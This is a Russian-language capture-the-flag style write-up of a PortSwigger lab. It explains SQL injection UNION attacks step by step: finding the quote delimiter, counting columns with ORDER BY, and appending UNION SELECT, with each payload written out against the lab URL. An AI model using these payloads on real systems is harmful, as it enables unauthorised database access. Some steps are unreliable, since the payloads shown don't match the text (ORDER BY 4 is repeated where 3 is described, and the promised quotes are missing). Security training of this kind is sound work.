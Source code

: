 ```yaml
---
title: "SQL injection UNION attack, determining the number of columns returned by the query"
date: 2025-06-19
tags: [sqli, writeup]
header:
  overlay_image: /assets/images/ps_logo.webp
  overlay_filter: 0.5 
---
```


**Source:** [Coffee Cube](https://t.me/coffee_cube)  
**Lab:** [PortSwigger](https://portswigger.net/web-security/learning-paths/sql-injection/sql-injection-determining-the-number-of-columns-required/sql-injection/union-attacks/lab-determine-number-of-columns)

## Scope

```
https://0a1600ed036880cd8c118c7100de00ed.web-security-academy.net/
```

В данной лабе есть уязвимый к **SQL injection** фильтр категории. Для решения необходимо выполнить атаку, которая должна вывести дополнительную строку с `NULL` значениями.

## Solution

Первым делом нужно найти фильтр категорий, который описан в задании. Это сделать достаточно легко, так как он находится на главной странице, и значения для фильтрации передаются через параметры `GET`-запроса.

![IMG](/assets/images/IMG_union_sqli/IMG_SQL-injection-UNION-attack-determining-the-number-of-columns-returned-by-the-query/1.png){: height="200" .align-center}

```
https://0a1600ed036880cd8c118c7100de00ed.web-security-academy.net/filter?category=Accessories
```


Теперь нужно найти символ обрамления для параметра. Предположим, что запрос выглядит следующим образом:

```sql
SELECT name, price FROM table WHERE category = 'Accessories'
```

Предположу, что для обрамления используется символ кавычки `'`, тогда я не должен получить никаких значений при следующем запросе:

```
https://0a1600ed036880cd8c118c7100de00ed.web-security-academy.net/filter?category=Accessories' and false-- -
```

Собственно это и произошло:

![IMG](/assets/images/IMG_union_sqli/IMG_SQL-injection-UNION-attack-determining-the-number-of-columns-returned-by-the-query/2.png){: height="200" .align-center}

Запрос к БД выглядел следующим образом:

```sql
SELECT name, price FROM table WHERE category = 'Accessories' and false -- -'
```

<details>
  <summary>Подробнее</summary>
  
  `-- -` - это комментарий в SQL, с помощью него я убрал всю последующую часть запроса. В данном случае это лишняя кавычка, которая ломала бы запрос.
</details>
<br>

Обрамления я нашел - это одинарные кавычки `'`. Теперь нужно найти количество элементов в запросе. Это можно сделать с помощью `ORDER BY`. Этот оператор используется для сортировки результата по номеру стоблца в БД. Если нужного столбца нет, то мы получим ошибку. Подставлю значение 100:

```
https://0a1600ed036880cd8c118c7100de00ed.web-security-academy.net/filter?category=Accessories%27%20ORDER%20BY%20100--%20-
```

Ошибка)

![IMG](/assets/images/IMG_union_sqli/IMG_SQL-injection-UNION-attack-determining-the-number-of-columns-returned-by-the-query/3.png){: height="200" .align-center}

Далее можно использовать бинарный поиск для нахождения нужного значения. То есть передать 50. В случае ошибки взять 25. Если же успех, то 75. И так далее. Можно так же ткнуть на обум. На сайте мы видим 3 колонки. Звучит логично, что они все заполняются из БД. Подставлю значение 4 (для сокращения буду писать только часть пейлоада):

```
Accessories' ORDER BY 4-- -
```

![IMG](/assets/images/IMG_union_sqli/IMG_SQL-injection-UNION-attack-determining-the-number-of-columns-returned-by-the-query/4.png){: height="200" .align-center}

Подставлю 3:

```
Accessories' ORDER BY 4-- -
```

![IMG](/assets/images/IMG_union_sqli/IMG_SQL-injection-UNION-attack-determining-the-number-of-columns-returned-by-the-query/5.png){: height="200" .align-center}

Супер. ~~Сбер теперь купер~~.

Я нашел количество столбцов. Попробую добавить `UNION` к своему пейлоаду, чтобы получить данные из БД:
  
```
Accessories' UNION SELECT 1,2,3-- -
```

Ошибка(

![IMG](/assets/images/IMG_union_sqli/IMG_SQL-injection-UNION-attack-determining-the-number-of-columns-returned-by-the-query/6.png){: height="200" .align-center}

Оберну значения в кавычки:

```
Accessories' and false UNION SELECT 1,2,3-- -
```

![IMG](/assets/images/IMG_union_sqli/IMG_SQL-injection-UNION-attack-determining-the-number-of-columns-returned-by-the-query/7.png){: height="200" .align-center}

Я вывел переданные значения в таблицу на сайте, что и требовалось для прохождения лабы.
